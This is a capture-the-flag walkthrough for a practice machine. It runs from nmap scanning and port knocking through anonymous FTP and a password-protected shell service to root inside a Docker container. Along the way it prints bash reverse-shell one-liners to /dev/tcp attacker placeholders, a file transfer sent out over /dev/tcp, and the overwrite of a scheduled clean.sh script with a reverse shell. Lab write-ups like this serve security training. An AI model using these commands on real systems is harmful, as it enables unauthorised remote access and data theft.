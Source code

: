 # Enumeration

Staring with nmap
```bash
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-06 23:25 IST
Nmap scan report for 10.10.184.159
Host is up (0.24s latency).

PORT     STATE    SERVICE      VERSION
21/tcp   filtered ftp
22/tcp   open     ssh          OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 37:43:64:80:d3:5a:74:62:81:b7:80:6b:1a:23:d8:4a (RSA)
|   256 53:c6:82:ef:d2:77:33:ef:c1:3d:9c:15:13:54:0e:b2 (ECDSA)
|_  256 ba:97:c3:23:d4:f2:cc:08:2c:e1:2b:30:06:18:95:41 (ED25519)
2375/tcp filtered docker
4420/tcp open     nvm-express?
| fingerprint-strings: 
|   DNSVersionBindReqTCP, GenericLines, GetRequest, HTTPOptions, RTSPRequest: 
|     INTERNAL SHELL SERVICE
|     please note: cd commands do not work at the moment, the developers are fixing it at the moment.
|     ctrl-c
|     Please enter password:
|     Invalid password...
|     Connection Closed
|   NULL, RPCCheck: 
|     INTERNAL SHELL SERVICE
|     please note: cd commands do not work at the moment, the developers are fixing it at the moment.
|     ctrl-c
|_    Please enter password:
8080/tcp open     http         Apache httpd 2.4.46 ((Unix) OpenSSL/1.1.1d PHP/7.3.27)
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-server-header: Apache/2.4.46 (Unix) OpenSSL/1.1.1d PHP/7.3.27
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port4420-TCP:V=7.91%I=7%D=6/6%Time=60BD0C2A%P=x86_64-pc-linux-gnu%r(NU
...[snip]...
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 150.86 seconds
```
Looking at the results, we have port 22 and 8080 open but 21 being marked as filtered (Firewall?).

### Port 8080
Looking at webpage, it was hosting a *phpbb* fourm. 

![image](https://user-images.githubusercontent.com/94787830/143220912-3e493a84-5145-4180-b76a-c7161e3a77c7.png)

PHPbb is an open source project. Looking at Github repository of PHPbb, we get whole directory structure of the application. Navigating to `/docs/CHANGELOG.html`, we found the version of PHPbb is 3.3.3. Looking for publicly available for this version number, but we found nothing.

Looking at the forum, we have one post which says

![image](https://user-images.githubusercontent.com/43528306/120971731-9ab68800-c78a-11eb-9fde-0667f4077293.png)

#### Port Knocking

The post says Knock,knock!! ...... hmmm. This maybe a hint for *port-knocking*. According to [wikipedia](https://en.wikipedia.org/wiki/Port_knocking),
> Port knocking is method of externally opening ports on firewall by generating a connection attempt on a set of prespecified closed ports.

In simple terms,It means that after knocking on ports in a specific sequence a certain port will open automatically. We can use nmap for this task,
```bash
for i in 1111, 2222, 3333, 4444; do nmap -Pn --max-retries 0 -p $i 10.10.243.236; done
```

The above command will check for specified ports, basically knocking at each specified ports only once and in sequence. Nmap default behaviour is to look for port more than once if it didn't responded. 
We can modify it using `max-retries` flag, setting it to 0.


### FTP
Running nmap scan again 
```bash
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-06 23:25 IST
Nmap scan report for 10.10.184.159
Host is up (0.24s latency).

PORT     STATE    SERVICE      VERSION
21/tcp   open ftp
..[snip]..
```
Great!, FTP service was now open. Trying for anonymous access and we were in. It had a note.txt stating:
```
In case I forget my password, I'm leaving a pointer to the internal shell service on the server.
  Connect to port 4420, the password is sardinethecat.
    - catlover
```

### PORT 4420
Interacting with this port using nc, prompt us for password. We have a password from previous note file using which,it gives us a basic shell. This shell had limited functionality.
Poking around, we found a file named *runme* in `/home/catlover`. To run this we need a better shell than this. 
```bash
# Victim
echo "bash -i >& /dev/tcp/ourIP/port 0>&1" | bash

# attacker
nc -lvnp 9991
```

We now have a better shell. Running the executable, asks us for another password. Trying the previous one we found but it didn't worked. There was no `strings` binary available on the box,so we need to transfer this runme file to our box.
```bash
# Attacker
nc -lvnp 9991 > runme

# Victim
cat runme > /dev/tcp/ourIP/9991
```
We have the file on our local machine.Running strings on it, found
```
rebecca
Please enter yout password: 
Welcome, catlover! SSH key transfer queued! 
touch /tmp/gibmethesshkey
```
Running the file on victim shell with the string we found worked. Waiting for few seconds we have a ssh private key file for `catlover`. Using this, we can ssh into the box.

## ROOT
After gaining the shell, we were already root but we were in a docker-environment.
```bash
root@7546fa2336d6:/root# ls -la
total 24
drwx------ 1 root root 4096 Mar 25 16:28 .
drwxr-xr-x 1 root root 4096 Mar 25 16:18 ..
-rw-r--r-- 1 root root  570 Jan 31  2010 .bashrc
drwxr-xr-x 3 root root 4096 Mar 25 16:26 .local
-rw-r--r-- 1 root root  148 Aug 17  2015 .profile
-rw-r--r-- 1 root root   41 Mar 25 16:28 flag.txt
```

Looking around we saw `.bash_history`. Looking at contents of the file, we found
```bash
ls -alt /
cat /post-init.sh 
cat /opt/clean/clean.sh 
bash -i >&/dev/tcp/192.168.4.20/4444 <&1 (?Revshell)
nano /opt/clean/clean.sh 
```
We need to change the content of `clean.sh` to give us reverse shell.
```bash
root@7546fa2336d6:/opt# echo 'bash -c "bash -i >& /dev/tcp/<IP>/<PORT> 0>&1"' > clean.sh
```
Set up a listener, and wait for few seconds, we have a shell as root.
ROOT!!!


